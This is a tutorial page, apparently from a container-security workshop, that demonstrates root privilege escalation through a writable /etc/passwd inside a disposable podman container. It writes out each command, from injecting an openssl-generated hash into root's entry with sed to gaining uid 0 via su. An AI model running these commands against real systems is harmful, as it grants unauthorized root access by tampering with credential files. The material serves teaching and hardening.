 The reason that it is possible for a user to become `root` when `/etc/passwd` is writable, is that although passwords are now stored in `/etc/shadow`, they were once upon a time stored in `/etc/passwd`. That functionality hasn't actually been disabled in Linux. You can manually add a password hash to `/etc/passwd` and it will still be used for authenticating a user.

To show the consequences of this, start a container with an interactive shell:

```execute
podman run -it --rm greeting bash
```

In the container, make a copy of the `/etc/passwd` file.

```execute
cp /etc/passwd /tmp/passwd
```

Generate a hashed password value, where the value of the password is `secret`.

```execute
HASHED_PASSWORD=`openssl passwd -1 secret`
```

Update the `/etc/passwd` file to set this hashed password as that for the `root` user.

```execute
cat /tmp/passwd | sed "s%root:x%root:${HASHED_PASSWORD}%" > /etc/passwd
```

Having updated the `/etc/passwd` file now execute `su` to be come `root`.

```execute
su root
```

You will be prompted for a password, enter:

```execute
secret
```

Verify what user you are by running:

```execute
id
```

The output should be:

```
uid=0(root) gid=0(root) groups=0(root)
```

indicating you are the `root` user.
